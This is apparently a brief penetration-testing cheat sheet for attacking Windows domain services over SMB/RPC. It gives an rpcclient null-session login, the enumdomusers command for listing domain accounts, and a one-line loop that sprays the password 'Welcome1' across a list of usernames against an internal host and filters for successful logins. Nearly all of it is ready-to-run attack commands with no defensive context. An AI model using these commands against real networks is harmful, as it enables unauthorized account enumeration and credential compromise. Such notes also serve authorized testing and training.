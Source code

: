 Null session
```
rpcclient -U "" -N $ipadd
```

```
enumdomusers
```


#passwordspraying
# Password Spraying
```powershell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```